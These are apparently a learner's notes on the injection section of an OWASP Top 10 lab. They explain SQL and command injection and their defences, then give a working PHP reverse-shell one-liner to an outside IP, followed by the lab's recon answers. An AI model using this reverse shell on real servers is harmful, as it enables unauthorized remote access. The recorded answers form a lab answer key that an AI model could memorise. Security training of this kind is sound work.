 # OWASP Top 10

## Injection [Severity 1]

Injection flaws are surprisingly common in applications today. They occur when user controlled input is interpreted by the software to be a legitimate command. Common types of injection include SQL injection and command injection.

A successful SQL injection would allow the attacker into the database, meaning they can access, modify or delete information that is stored. They will likely gain access to users passwords.

A successful command injection could allow an attacker to gain access to either the servers system or other users systems.

The main defences for these forms of injection are to use an allow list - the input given must be marked as safe before it is processed, or to strip the input of any characters that may be deemed dangerous.

### OS command injection

Command Injection occurs when server-side code in a web application makes a system call on the hosting machine. This allows the attacker to run operating system command on the server. Ideally as an attacker, this would be used in order to attempt to spawn a reverse shell to become the user that the web server is running as.

### Command injection practical

Blind command injection occurs whenthe system command made to the server does not return the response to the user in the HTML document. Active command injection will show the response.

Load a website that is vulnerable to this issue

**Questions**

Let's get a reverse shell first.

php -r '$sock=fsockopen("10.9.5.200",4444);exec("/bin/sh -i <&3 >&3 2>&3");'


	1. What strange text file is in the website root directory?

drpepper.txt

	2. How many non-root/non-service/non-daemon users are there?

0

	3. What user is this app running as?

www-data

	4. What is the user's shell set as?

usr/sbin/nologin

	5. What version of Ubuntu is running?

18.04.4
